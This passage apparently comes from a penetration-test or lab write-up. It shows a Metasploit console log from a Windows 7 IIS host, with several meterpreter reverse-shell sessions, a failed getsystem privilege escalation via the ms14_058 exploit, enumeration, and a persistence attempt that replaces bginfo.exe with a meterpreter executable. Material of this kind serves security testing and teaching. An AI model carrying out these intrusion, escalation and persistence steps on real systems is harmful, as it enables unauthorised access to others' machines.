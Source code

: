     meterpreter > getuid
    Server username: IIS APPPOOL\MyFirstSite
    meterpreter > getsystem
    [-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    meterpreter > background
    [*] Backgrounding session 20...
    msf exploit(ms14_058_track_popup_menu) > sessions
    
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      17  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49159 (192.168.0.102)
      18  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49160 (192.168.0.102)
      19  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49161 (192.168.0.102)
      20  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49162 (192.168.0.102)
    
    msf exploit(ms14_058_track_popup_menu) > sessions 20
    [*] Starting interaction with 20...
    
    meterpreter > getuid
    Server username: IIS APPPOOL\MyFirstSite

Failed to work @ 14:22. 

OK, more enumeration.

    meterpreter > sysinfo
    Computer        : IE11WIN7
    OS              : Windows 7 (Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows


### Persistence (possibly)

Overwrote `bginfo.exe` with a meterpreter executable to possible give us a new connection on a BGinfo run. Failed to trigger during the observation period, including after a reboot of the box.


### Privilege Elevation Tomcat

From the enumeration, noticed tomcat is running on 8080. In the low priv shell, find where this is setup.
